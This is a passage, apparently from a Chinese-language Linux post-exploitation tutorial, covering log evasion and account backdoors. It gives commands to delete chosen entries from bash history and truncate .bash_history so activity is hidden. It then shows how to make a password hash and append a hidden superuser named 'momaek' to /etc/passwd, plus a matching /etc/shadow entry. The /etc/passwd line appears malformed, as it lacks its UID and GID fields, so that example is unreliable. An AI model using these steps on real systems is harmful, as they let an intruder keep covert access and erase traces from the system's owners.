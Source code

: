 技巧二：从历史记录中删除指定的命令

假设历史记录中已经包含了一些你不希望记录的命令。这种情况下我们怎么办？很简单。通过下面的命令来删除：

```
history | grep "keyword"


```

输出历史记录中匹配的命令，每一条前面会有个数字。从历史记录中删除那个指定的项：

```
history -d [num]


```

删除大规模历史操作记录，这里，我们只保留前 150 行：

```
sed -i '150,$d' .bash_history


```

#### 1.4 passwd 写入

```
/etc/passwd 各部分含义：
用户名：密码：用户ID：组ID：身份描述：用户的家目录：用户登录后所使用的SHELL


```

```
/etc/shadow 各部分含义：
用户名：密码的MD5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口令失效的天数：口令失效以后帐号会被锁定多少天：用户帐号到期时间：保留字段尚未使用 


```

写入举例：

1. 增加超级用户

```
$perl -le 'print crypt("momaek","salt")'
savbSWc4rx8NY

$echo "momaek:savbSWc4rx8NY:hacker:/root:/bin/bash" >> /etc/passwd


```

2. 如果系统不允许 uid=0 的用户远程登录，可以增加一个普通用户账号

```
echo "momaek:savbSWc4rx8NY:-1:-1:-1:-1:-1:-1:500" >> /etc/shadow


```
